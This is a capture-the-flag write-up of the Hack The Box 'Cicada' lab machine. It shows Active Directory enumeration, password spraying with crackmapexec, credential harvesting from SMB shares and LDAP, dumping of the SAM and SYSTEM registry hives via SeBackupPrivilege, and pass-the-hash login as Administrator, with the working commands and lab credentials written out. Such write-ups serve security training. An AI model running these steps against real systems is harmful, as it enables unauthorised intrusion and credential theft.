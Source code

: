 ```yaml
---
title: HTB - Cicada
author: mashhood
date: 2024-09-30 12:12:00 +0530
description: The Cicada is an Easy HTB season 6 machine involves exploiting a Windows Active Directory setup.
categories: [Writeup]
tags: [htb]
---
```


# HTB - Cicada

The Cicada is an Easy HTB season 6 machine involves exploiting a Windows Active Directory setup. By enumerating SMB shares, we gradually gain access to sensitive information. After finding passwords in shared files and an LDAP domain dump, we escalate privileges to gain full control of the system.

## Enumeration

After performing an initial Nmap scan, several interesting services were identified:

```
─(kali㉿kali)-[~/Desktop]  
└─$nmap 10.10.11.35 -sC -sV --min-rate 1000 -oN nmap-cicada.txt 
# Nmap 7.94SVN scan initiated Mon Sep 30 01:31:37 2024 as: /usr/lib/nmap/nmap --privileged -sC -sV --min-rate 1000 -oN nmap-cicada.txt 10.10.11.35
Nmap scan report for 10.10.11.35
Host is up (0.20s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-09-30 12:32:03Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, 
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)

Host script results:
| smb2-time: 
|   date: 2024-09-30T12:32:49
|_  start_date: N/A
|_clock-skew: 7h00m15s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
```

There is no web based technology available here. So, with SMB (`445/tcp`) and LDAP (`389/tcp`, `636/tcp`) available, it’s worth investigating these services further. Since nmap shows that the Domain name of the target system is cicada.htb, we will add it to our `/etc/hosts` file
```
─(kali㉿kali)-[~/Desktop]  
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.10.11.35     cicada.htb
```

## SMB Enumeration

Using `smbclient`, we attempt to list shares:

```bash
─(kali㉿kali)-[~/Desktop]  
└─$ smbclient -L 10.10.11.35
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
DEV             Disk
HR              Disk
IPC$            IPC       Remote IPC
NETLOGON        Disk      Logon server share
SYSVOL          Disk      Logon server share
```

The interesting shares here are `DEV` and `HR`. The `HR` share have a file named `Notice from HR.txt` . 
```
─(kali㉿kali)-[~/Desktop]  
└─$ smbclient \\\\10.10.11.35\\HR -N
smb: \> ls
  .                                   D        0  Thu Mar 14 08:29:09 2024
  ..                                  D        0  Thu Mar 14 08:21:29 2024
  Notice from HR.txt                  A     1266  Wed Aug 28 13:31:48 2024
```
The password `Cicada$M6Corpb*@Lp#nZp!8` for the new employee's account was found within this document.
So, we attempt to gather usernames via `crackmapexec` by brute-forcing the RID which reveals several users:

```bash
─(kali㉿kali)-[~/Desktop]  
└─$ crackmapexec smb 10.10.11.35 -u anonymous -p "" --rid-brute

1104: CICADA\john.smoulder (SidTypeUser)
1105: CICADA\sarah.dantelia (SidTypeUser)
1106: CICADA\michael.wrightson (SidTypeUser)
1108: CICADA\david.orelious (SidTypeUser)
1601: CICADA\emily.oscars (SidTypeUser)
```

We create a wordlist with the found usernames and attempt to brute force credentials using `crackmapexec` which reveals that the credential we discovered before is for the user **Michael Wrightson**:

```bash
─(kali㉿kali)-[~/Desktop]  
└─$ crackmapexec smb 10.10.11.35 -u users-cicada.txt -p pass.txt

SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\sarah.dantelia:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8
```

```
michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8
```

## LDAP Enumeration

Using Michael Wrightson’s credentials, we perform an LDAP domain dump:

```bash
─(kali㉿kali)-[~/Desktop]  
└─$ ldapdomaindump ldap://10.10.11.35 -u 'cicada.htb\michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8'
```

From the domain dump, we discover **David Orelious’s password** in the description section of domain users:

![Desktop View](/assets/img/posts/30092024/cicada-ldap.png)

```
david.orelious:aRt$Lp#7t*VQ!3
```

## SMB Access - DEV Share

With David Orelious’s credentials, we access the **DEV** SMB share:

```bash
smbclient //10.10.11.35/DEV -U david.orelious
```

In the **DEV** share, we find a **Backup_script.ps1** file, which contains another set of credentials for **Emily Oscars**:

```powershell
$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"
```

```
emily.oscars:Q!3@Lp#M6b*7t*Vt
```

## Privilege Escalation

#### Evil-WinRM Access
Using Emily Oscar’s credentials, we establish a connection via `evil-winrm`:

```bash
evil-winrm -i 10.10.11.35 -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'
```

Once connected, we check the privileges with `whoami /priv`. Here, we notice that Emily has high-privilege tokens enabled:

```powershell
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

####  Dumping SAM and SYSTEM

With **SeBackupPrivilege** enabled, we can use it to dump the **SAM** and **SYSTEM** registry hives to extract hashes for privilege escalation.
Copy the `sam` file and `system` to a folder with these command and download it to the attacker machine.
``` powershell
reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system
```
Then use `pypykatz` to extract the hash from these files.
```bash
pypykatz registry --sam sam system
============== SYSTEM hive secrets ==============
CurrentControlSet: ControlSet001
Boot Key: 3c2b033757a49110a9ee680b46e8d620
============== SAM hive secrets ==============
HBoot Key: a1c299e572ff8c643a857d3fdb3e5c7c10101010101010101010101010101010
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

With this hash we can login as Administrator using `evil-winrm`.
```
evil-winrm -i 10.10.11.35 -u Administrator -H '2b87e7c93a3e8a0ea4a581937016f341'
```

# Reference
https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/
